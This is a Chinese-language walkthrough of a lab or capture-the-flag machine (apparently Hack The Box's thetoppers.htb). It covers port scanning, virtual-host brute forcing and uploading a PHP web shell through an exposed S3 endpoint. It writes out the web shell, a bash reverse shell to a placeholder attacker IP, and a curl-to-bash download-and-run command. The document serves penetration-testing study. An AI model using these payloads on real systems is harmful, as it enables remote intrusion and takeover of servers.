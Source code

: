 ### 一、操作流程
1. 使用`nmap`扫描主机
> nmap -sV 10.129.67.48
> 
```shell
Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-06 08:46 CST
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 10.129.67.48
Host is up (1.0s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.36 seconds
```
> 存在80端口和22端口，对22进行爆破无效，访问80

2. 获取敏感信息
> 打开火狐的`Wappalyzer`插件，发现后台语言使用php

3. 虚拟主机爆破
> gobuster vhost -w /usr/share/wordlists/wfuzz/general/common.txt -u http://thetoppers.htb
> `http://thetoppers.htb`在访问的页面上获取，并在`/etc/hosts`配置ip映射，爆破后发现存在虚拟主机`http://s3.thetoppers.htb`

4. 连接虚拟主机`http://s3.thetoppers.htb`
> 虚拟主机启用的服务为`Amazon s3 `,提供静态网站托管的功能,通常给业务部门存储静态资源
- 连接`Amazon s3 `服务
  -  安装:`apt install awscli`
  -  设置:`aws configure`
  -  常用命令:
        > aws --endpoint=http://s3.thetoppers.htb s3 ls #查看托管的主机
        > aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb # 查看文件列表,通过这步确认托管了web服务，因此可以利用其他命令行上传后门文件
        >  aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb #上传文件

5. 反弹shell
> - echo "\<?php system($_GET["cmd"]); ?>"   >   shell.php   #生成文件，用来执行操作系统命令
> - 使用`aws`指令上传到服务器
> - 本地启动简易的web服务，如`python3 -m http.server 8000`
> - 本地监听指定端口，如`nc -nvlp 1337`
> -  本地创建shell.sh文件，并写入`bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1`
> -  利用后门文件调用从而反弹shell,即执行`http://thetoppers.htb/shell.php?cmd=curl%20<YOUR_IP_ADDRESS>:8000/shell.sh|bash`

### 涉及知识点
1. `Amazon s3 `服务
2. 子域名接管漏洞 
>  利用子域名使用到期后没有清除其到域名的映射记录，从而被利用
3. 反弹shell